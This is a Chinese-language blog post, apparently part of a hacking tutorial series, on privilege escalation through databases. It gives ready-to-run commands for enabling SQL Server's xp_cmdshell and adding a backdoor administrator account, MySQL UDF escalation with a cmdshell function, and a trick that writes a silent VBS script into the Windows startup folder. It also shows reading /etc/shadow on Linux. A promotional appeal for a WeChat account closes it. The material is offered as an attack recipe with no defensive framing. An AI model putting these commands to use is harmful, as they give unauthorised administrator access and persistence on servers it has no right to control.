 ```yaml
---
layout: post
category: curleyg-code-hack
title: 数据库提权
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 数据库提权
lock: need
---
```


# 数据库提权

## SQL Server提权

**1.启用或关闭xp_cmdshell**

```bash
--启用xp_cmdshell
USE master 
EXEC sp_configure 'show advanced options', 1 
RECONFIGURE WITH OVERRIDE 
EXEC sp_configure 'xp_cmdshell', 1 
RECONFIGURE WITH OVERRIDE 
EXEC sp_configure   'show advanced options', 0
RECONFIGURE WITH OVERRIDE 

--关闭xp_cmdshell
USE master 
EXEC sp_configure 'show advanced options', 1 
RECONFIGURE WITH OVERRIDE 
EXEC sp_configure 'xp_cmdshell', 0 
RECONFIGURE WITH OVERRIDE 
EXEC sp_configure   'show advanced options', 0
RECONFIGURE WITH OVERRIDE 
```

**2.添加用户**

```bash
Exec master.dbo.xp_cmdshell 'net user liuyazhuang lyz123 /add'
```

**3.将用户添加到管理员组**

```bash
Exec master.dbo.xp_cmdshell 'net localgroup administrators liuyazhuang /add'
```

**4.通过xp_cmdshell exec查看系统用户**

```bash
Exec master.dbo.xp_cmdshell 'net user'
```

**5.远程终端登录**

命令行运行mstsc打开远程终端，输入IP地址和刚才添加的用户名和密码，登录即可。

另外，通过数据库备份，将批处理命令备份到启动文件夹下，系统重启后就会自动执行批处理命令，也能达到提权的效果。

## MySQL提权

**1.将udf.dll文件导出到默认的插件目录下**

**2.UDF提权的常用命令**

```sql
create function cmdshell returns string soname 'udf.dll';
select cmdshell('net user liuyazhuang lyz123 /add');
select cmdshell('net localgroup administrators liuyazhuang /add');
select cmdshell('net localgroup administrators');
select cmdshell('ipconfig/all');
select cmdshell('net user');
select cmdshell('regedit /s d:\wwwroot\3389.reg');
drop function cmdshell;
select cmdshell('netstat -an');
```

**3.VBS启动项**

先通过WebShell连接数据库，通过建立表a将VBS脚本写入表中，然后导入启动项。该脚本仅对中文版有效，如果使用其他语言版本的操作系统，仅需对"C:\\Documents and Settings\\All Users\\[开始]菜单\\程序\\启动\\a.vbs"这个脚本进行相应更改。在VBS脚本后面有一个"0"，表示不弹出CMD窗口，以静默模式运行。该方法是在通过UDF提权失败的情况下，将VBS插入启动项中，待系统重启后将自动添加一个用户，示例如下：

```sql
create table a (cmd text);
insert into a values("set wshshell=createobject(""wscript.shell"") " );
insert into a values("a=wshshell.run(""cmd.exe /c net user liuyazhuang lyz123 /add"",0) " );
insert into a values("b=wshshell.run(""cmd.exe /c net localgroup administrators liuyazhuang /add"",0) " );
select * from a into outfile "C:\\Documents and Settings\\All Users\\[开始]菜单\\程序\\启动\\a.vbs";
```

## Linux下的MySQL提权

```sql
mysql -hlocalhost -uroot -p
system useradd hacker
system passwd hacker
system tail -l /etc/passwd
system tail -l /etc/shadow
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png) 
